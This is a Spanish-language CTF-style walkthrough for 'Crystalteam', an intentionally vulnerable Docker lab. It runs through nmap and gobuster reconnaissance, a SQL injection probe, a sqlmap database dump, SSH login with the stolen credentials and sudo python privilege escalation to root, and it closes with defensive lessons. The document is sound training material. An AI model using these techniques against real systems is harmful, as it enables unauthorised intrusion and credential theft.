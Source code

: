 # 🖥️ **Máquina: Crystalteam**  
🔹 **Dificultad:** Fácil  
📌 **Descripción:**  
Crystalteam es una máquina vulnerable basada en Docker, diseñada para poner a prueba habilidades en la explotación de bases de datos mediante **inyecciones SQL (SQLi)**. Su enfoque principal es la identificación y explotación de vulnerabilidades en consultas MySQL para obtener acceso no autorizado a la base de datos y extraer información sensible.  

📢 **Agradecimientos:** Gracias a [DockerLabs](https://dockerlabs.es) por proporcionar *scripts* y bases que facilitaron la creación de esta máquina.  

---

## 🎯 **Objetivo**  
- Identificar y explotar fallos de seguridad en la página web **Certificación** mediante **inyección SQL**.  
- Comprender el impacto real de estas vulnerabilidades y cómo prevenirlas.  

---

## 🚀 **Despliegue de la Máquina Backend en DockerLabs**  

### 1️⃣ **Descargar el Archivo**  
Descarga el archivo desde el siguiente enlace:  

🔗 [Crystalteam Docker Machine](https://drive.google.com/drive/folders/1rmXS7t-rqtLrRHcFd15-Sv8ujptn4fpT?usp=sharing)  

### 2️⃣ **Ejecutar el Despliegue Automático**  
Ejecuta el siguiente comando para desplegar la máquina en Docker:  

```bash
bash auto_deploy.sh crystalteam.tar
```
Una vez iniciada, comprueba la conexión con:  

```bash
ping -c4 172.17.0.2
```

### 3️⃣ **Reconocimiento Inicial con Nmap**  
Realizamos un escaneo de puertos con:  

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Extraemos los puertos abiertos con:  

```bash
extracPorts allPorts.txt
```

Luego, realizamos un análisis detallado de los servicios en ejecución:  

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```
📌 **Resultado:** Identificamos el puerto **22 (SSH)** y el **80 (HTTP)**, lo que nos sugiere que hay un sitio web corriendo.  

---

## 🔍 **Enumeración del Sitio Web**  

Editamos el archivo de *hosts* para facilitar el acceso:  

```bash
nano /etc/hosts
```

Recopilamos información con **WhatWeb** para detectar tecnologías usadas:  

```bash
whatweb 172.17.0.2
```

Al ingresar a la página web, encontramos un **formulario de inicio de sesión y registro**.  

Para descubrir directorios ocultos, utilizamos **Gobuster**:  

```bash
gobuster dir -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt
```

Para buscar subdominios:  

```bash
gobuster vhost -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 | grep -v "402"
```

📌 **Resultado:** No se encontraron subdominios o directorios relevantes.  

---

## 🔥 **Explotación - Inyección SQL**  

Probamos inyección SQL en el campo de usuario con:  

```sql
admin'
```

📌 **Resultado:** Se genera un **error de base de datos**, confirmando la vulnerabilidad.  

Usamos **Burp Suite** para interceptar la solicitud y guardarla en un archivo `.req`.  

Ejecutamos **SQLMap** para extraer datos sensibles:  

```bash
sqlmap -r peticione.req --level=5 --risk=3 --dump
```

📌 **Resultado:** Encontramos una base de datos llamada **inicio**, con nombres de usuario y contraseñas.  

Usamos las credenciales para intentar acceder por **SSH**:  

```bash
ssh alejandro@172.17.0.2 -p 22
```

📌 **Acceso concedido como usuario "alejandro".**  

---

## 🚀 **Escalada de Privilegios**  

Listamos permisos con:  

```bash
sudo -l | grep python
```

📌 **Resultado:** Python puede ejecutar comandos como **root**.  

Ejecutamos el siguiente comando para leer el archivo `redflag.txt`:  

```bash
sudo python3 -c "print(open('redflag.txt').read())"
```

📌 **Resultado:** ¡Hemos obtenido la *redflag*! 🎉  

Para verificar acceso como *root*, ejecutamos:  

```bash
su -
```

📌 **Resultado:** **Acceso total a la máquina.**  

---

## 🏆 **Conclusión**  

🔹 **Vulnerabilidades explotadas:**  
✅ Inyección SQL (SQLi) para obtener credenciales.  
✅ Uso de credenciales expuestas para acceder por SSH.  
✅ Escalada de privilegios mediante Python.  

🔹 **Lecciones aprendidas:**  
🚨 **No** concatenar consultas SQL sin sanitizar entradas.  
🔐 Implementar **hashing de contraseñas** en la base de datos.  
📛 Restringir permisos innecesarios a usuarios del sistema.  

